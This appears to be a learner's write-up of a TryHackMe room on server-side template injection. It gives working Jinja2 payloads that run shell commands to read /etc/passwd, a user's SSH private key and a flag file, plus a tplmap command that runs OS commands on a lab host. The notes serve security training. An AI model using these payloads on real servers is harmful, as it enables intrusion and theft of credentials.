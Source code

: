 # Room
https://tryhackme.com/room/zthobscurewebvulns

# Task 1 - Intro
The larger vulnerabilities in web applications are:
* SSTI
* CSRF
* JWT
* XXE

# Task 2 - Methodology
Sections

# Task 3 - SSTI - What is SSTI
SSTI - Server Side Template Injection.  Template engines allow developers to use static HTML pages with dynamic parts such as a username.  Different template engines have different injection payloads.

# Task 4 - SSTI - Manual exploitation of SSTI
Research
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

Examples
* Use cat to read the /etc/passwd
    ```
    {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
    ```
* Use read to view test's SSH private key
    ```
    {{ ''.__class__.__mro__[2].__subclasses__()[40]()('/home/test/.ssh/id_rsa').read()}}
    ```

# Task 5 - SSTI - Automatic exploitation of SSTI
Tool to detect SSTI
* https://github.com/epinna/tplmap

Examples
* Grab /etc/passwd with a vulnerable parameter
    ```
    tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd 'cat /etc/passwd'
    ```

# Task 6 - SSTI - Challenge
Use SSTI to read /flag
```
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```

